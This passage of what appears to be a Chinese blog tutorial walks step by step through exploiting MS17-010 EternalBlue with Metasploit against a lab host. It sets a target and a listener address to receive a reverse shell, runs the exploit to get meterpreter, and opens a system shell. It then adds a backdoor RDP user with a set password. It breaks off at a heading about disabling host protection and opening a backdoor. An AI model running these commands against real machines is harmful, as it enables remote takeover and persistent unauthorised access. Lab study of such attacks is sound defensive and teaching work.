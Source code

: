 ### 4.设置目标IP

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.109.130  
如果有多个攻击目标，ip间直接用空格隔开就行
```

![img](https://img-blog.csdnimg.cn/img_convert/f7594f924982cb7eb6f563ab32b08468.png)

### 5.设置用于接收从目标机弹回来的shell

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.109.132
```

![img](https://img-blog.csdnimg.cn/img_convert/3ec96c19825d33ee7989faf7544e227e.png)

### 6.执行攻击

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
出现meterpreter >   即为成功
```

![img](https://img-blog.csdnimg.cn/img_convert/81adaf876d2b321175579876b77a50ea.png)

## 六、进入、退出终端

```
meterpreter > shell        进入终端
 
C:\Windows\system32>exit   退出终端

chcp 65001           解决乱码
```

![img](https://img-blog.csdnimg.cn/img_convert/792171e180708ff19cd12ed057367b56.png)

![img](https://img-blog.csdnimg.cn/img_convert/dd516f4588db65c92ad42d998e38be02.png)

## 七、创建用户

run post/windows/manage/enable_rdp USERNAME=tubage PASSWORD=123.com

创建完成之后我们可以去远程连接桌面默认30秒目标无操作自动连接
root@kali# rdesktop 192.168.109.130     远程连接桌面

![img](https://img-blog.csdnimg.cn/img_convert/857db9ee8f1d0305fb47811e348cfe8a.png)

## 八、关闭主机防护策略并开启后门

### 1.创建防火墙规则
